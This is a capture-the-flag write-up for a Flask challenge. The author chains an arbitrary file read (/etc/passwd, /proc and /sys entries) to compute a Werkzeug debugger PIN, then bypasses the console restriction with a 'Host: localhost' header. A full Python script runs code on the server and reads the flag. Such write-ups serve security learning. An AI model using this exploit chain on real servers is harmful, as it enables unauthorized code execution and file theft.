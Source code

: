 ```yaml
---
ai_date: 2025-08-17 20:46:28
ai_summary: Explored Flask vulnerabilities, found UID and route info, used SHA1 to
  compute PIN, and solved with 'Host' header bypass for console access
ai_tags:
- flask
- http-hdr
- ssrf
created: 2025-08-16T05:10
points: 100
solves: 457
title: My Flask App
updated: 2025-08-17T20:46
---
```


We get a free file leak, but I can't really find anything useful so I looked for hacks related to flask itself, I mean it has 100+ solves so it should be pretty easy.

A quick search brought me to https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html

I was quickly able to solve for the PIN and locally solve the challenge.

```python
import requests
import re
target = "http://localhost:5000"
target = "https://my-flask-app-psqkzfxd6bgu.chals.sekai.team:1337"

# /proc/self/status
Uid = requests.get(f"{target}/view?filename=/proc/self/status").text
Uid = Uid.split("Uid:")[1].split("\n")[0].strip().split()[0]
# /etc/passwd
passwd = requests.get(f"{target}/view?filename=/etc/passwd").text
# ...:x:UID:UID:
usernames = re.findall(r"^([^:]+):x:(\d+):(\d+):", passwd, re.MULTILINE)
username = next((u for u, uid, gid in usernames if uid == Uid), None)
if not username:
    print("Username not found for UID:", Uid)
    exit(1)

# make sure module file actually exists lol
module = '/usr/local/lib/python3.11/site-packages/flask/app.py'
module_file = requests.get(f"{target}/view?filename={module}").text
if "__future__" not in module_file:
    print("Module file does not exist")
    exit(1)

probably_public_bits = [username, 'flask.app', 'Flask', module]

# /proc/net/route
routes = requests.get(f"{target}/view?filename=/proc/net/route").text
routes = routes.splitlines()[1:]
# find destination 00000000
iface = next((line.split()[0] for line in routes if line.split()[1] == '00000000'), None)
if not iface:
    print("No route found for destination 00000000")
    exit(1)
# /sys/class/net/<iface>/address
address = requests.get(f"{target}/view?filename=/sys/class/net/{iface}/address").text.strip()
mac_addr = str(int(address.replace(':', ''), 16))

# /proc/sys/kernel/random/boot_id
mid = requests.get(f"{target}/view?filename=/proc/sys/kernel/random/boot_id").text.strip()

# /proc/self/cgroup
cgroup_part = requests.get(f"{target}/view?filename=/proc/self/cgroup").text.strip().rpartition('/')[2]

full_mid = mid + cgroup_part

private_bits = [mac_addr, full_mid]

### collection is done, now compute the PIN

import hashlib
from itertools import chain

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

# we also get the cookie name lol
cookie_name = '__wzd' + h.hexdigest()[:20]

h.update(b'pinsalt')
num = f"{int(h.hexdigest(), 16):09d}"[:9]
rv = None
for group_size in 5, 4, 3:
    if len(num) % group_size == 0:
        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0') for x in range(0, len(num), group_size))
        break
else:
    rv = num
print(f"found pin: {rv}")
```

However trying to visit the remote's console failed.

Locally /console opens without issue but on remote it gives me bad request.

https://my-flask-app-psqkzfxd6bgu.chals.sekai.team:1337/console

```
Bad Request

The browser (or proxy) sent a request that this server could not understand.
```

I got stuck here for quite a bit, until the LLM overlords told me to use `Host=localhost` header, which magically solved the challenge lmfao.

```python

s = requests.Session()
secret = re.search(r"SECRET = \"(\w+)\";", s.get(f"{target}/console",headers={
    "Host": "localhost"
}).text).group(1)
print(s.get(f"{target}/console?__debugger__=yes&cmd=pinauth&pin={rv}&s={secret}",headers={
    "Host": "localhost"
}).text)

def run_code(code):
    return s.get(f"{target}/console?__debugger__=yes&cmd={requests.utils.quote(code)}&frm=0&s={secret}",headers={
    "Host": "localhost"
}).text

files = run_code(f"import os; print(os.listdir('/'))")
flag_file = re.search(r"flag-\S+.txt", files).group(0)
print(f"flag file: {flag_file}")
flag = run_code(f"with open('/{flag_file}', 'r') as f: print(f.read())")
flag = re.search(r"SEKAI{.*}", flag).group(0)
print(f"flag: {flag}")
# SEKAI{!$-tHIs-3ven_&lt;all3d_a_cv3}
# entity decoded -> SEKAI{!$-tHIs-3ven_<all3d_a_cv3}
```

```flag
SEKAI{!$-tHIs-3ven_<all3d_a_cv3}
```